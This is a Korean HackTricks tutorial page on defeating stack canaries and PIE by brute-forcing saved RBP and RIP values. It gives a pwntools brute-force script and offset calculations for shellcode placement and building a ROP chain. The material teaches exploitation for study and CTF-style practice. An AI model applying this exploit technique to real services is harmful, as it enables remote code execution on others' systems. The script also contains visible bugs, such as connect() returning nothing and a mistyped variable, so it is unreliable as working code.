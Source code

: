 # 스택 내의 BF 주소

{% hint style="success" %}
AWS 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

**캐너리와 PIE (Position Independent Executable)로 보호된 이진 파일에 직면했다면 아마도 이를 우회해야 할 것입니다.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
**`checksec`**가 이진 파일이 캐너리로 보호되었음을 찾지 못할 수 있습니다. 이는 정적으로 컴파일되었고 함수를 식별할 수 없는 경우입니다.\
그러나 함수 호출 시작 시 스택에 값이 저장되고 이 값이 종료 전에 확인되는 경우 이를 수동으로 알 수 있습니다.
{% endhint %}

## 주소 브루트 포스

**PIE를 우회하려면** 어떤 주소를 **유출**해야 합니다. 그리고 이진 파일이 어떤 주소도 유출하지 않는 경우 취약한 함수에서 스택에 저장된 **RBP와 RIP를 브루트 포스**하는 것이 가장 좋습니다.\
예를 들어, 이진 파일이 **캐너리**와 **PIE**를 사용하여 보호되었을 때, 캐너리를 브루트 포스한 다음 **다음** 8바이트(x64)는 저장된 **RBP**이고 **다음** 8바이트는 저장된 **RIP**가 될 것입니다.

{% hint style="success" %}
스택 내의 반환 주소는 주로 주요 이진 코드에 속하며, 취약점이 이진 코드에 있는 경우 일반적으로 해당됩니다.
{% endhint %}

이진 파일에서 RBP와 RIP를 브루트 포스하기 위해 유효한 추측된 바이트가 올바른지 확인하려면 프로그램이 출력하거나 충돌하지 않는지 확인할 수 있습니다. 캐너리를 브루트 포스하는 데 사용된 **동일한 함수**를 사용하여 RBP와 RIP를 브루트 포스할 수 있습니다:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
마지막으로 PIE를 무력화하기 위해 필요한 것은 유출된 주소에서 유용한 주소를 계산하는 것입니다: RBP와 RIP.

RBP에서는 스택 내부에 셸을 작성하는 위치를 계산할 수 있습니다. 이는 스택 내부에 문자열 "/bin/sh\x00"을 작성할 위치를 파악하는 데 매우 유용합니다. 유출된 RBP와 셸코드 간의 거리를 계산하려면 유출된 RBP 이후에 중단점을 설정하고 셸코드의 위치를 확인한 후 셸코드와 RBP 간의 거리를 계산할 수 있습니다:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP**에서는 **PIE 이진 파일의 베이스 주소**를 계산할 수 있으며, 이는 **유효한 ROP 체인을 생성하는 데 필요**합니다.\
베이스 주소를 계산하려면 `objdump -d vunbinary`를 실행하고 최신 주소를 확인하십시오:

![](<../../../.gitbook/assets/image (479).png>)

이 예에서는 모든 코드를 찾기 위해 **1바이트와 반**만 필요하다는 것을 알 수 있습니다. 따라서 이 상황에서의 베이스 주소는 **"000"으로 끝나는 노출된 RIP**일 것입니다. 예를 들어, `0x562002970ecf`가 노출되었다면 베이스 주소는 `0x562002970000`이 됩니다.
```python
elf.address = RIP - (RIP & 0xfff)
```
## 개선 사항

[**이 게시물에서의 일부 관찰에 따르면**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), RBP 및 RIP 값이 유출될 때, 서버가 올바른 값이 아닌 경우에도 일부 값으로 인해 서버가 충돌하지 않고 BF 스크립트가 올바른 값을 얻은 것으로 생각할 수 있습니다. 이는 **일부 주소가 정확한 값이 아니더라도 깨지지 않을 수 있기 때문**입니다.

해당 블로그 게시물에 따르면 서버로의 요청 사이에 짧은 지연을 추가하는 것이 권장됩니다.

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}
